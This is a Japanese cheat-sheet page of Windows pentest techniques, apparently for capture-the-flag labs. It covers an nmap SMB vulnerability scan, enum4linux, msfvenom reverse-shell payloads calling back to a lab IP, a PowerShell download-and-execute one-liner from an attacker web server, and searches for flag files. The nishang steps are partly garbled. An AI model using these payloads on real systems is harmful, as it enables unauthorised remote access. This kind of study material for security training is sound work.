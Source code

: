 ```yaml
---
{"dg-publish":true,"permalink":"/pentest-technique/windows/"}
---
```





---

# 脆弱性スキャン

### TCPポート 445・TCP/UDPポート 139が空いている場合

- **NmapでSMBの脆弱性をスキャン**

```bash
nmap --script=smb-vuln* <IP>
```


---
## 情報収集
### Sambaを介して共有情報を取得

- **enum4linux
    Sambaを介して情報を抽出できるツール。
- 取得できる情報:
    - グループメンバーシップ情報
    - 共有情報
    - ワークグループまたはドメインメンバーシップ
    - リモートオペレーティングシステムの識別
    - パスワードポリシーの取得

---


---

### **Msfvenomでのリバースシェル作成**

#### **32ビット用

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.34 LPORT=8888 -f aspx > shell2.aspx
```

#### **64ビット用

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.34 LPORT=1234 -f exe > stageless_payload_x64.exe
```

---

## 権限昇格
### nishang
  https://github.com/samratashok/nishang
 - 流れ
```bash
sudo apt install nishang
sudo updatedb && locate nishang
Invoke-Powershell-UdpOneLine.ps1
sudo cp Invoke-Powershell-UdpOneLine.ps1
- 攻撃者側にwebサーバーを立てる
- やられ側のwindowsでダウンロードする
powershell.exe /c Invoke-Expression(New-Object Net.WebClient).DownladString(http://攻撃者側IP/Update.ps1)
```

### フラグ検索
- Cディレクトリを再帰的に検索
- 大文字も小文字も関係なく検索

```bash
dir /s /b C:\user.txt
```


```bash
dir /s /b C:\root.txt
```

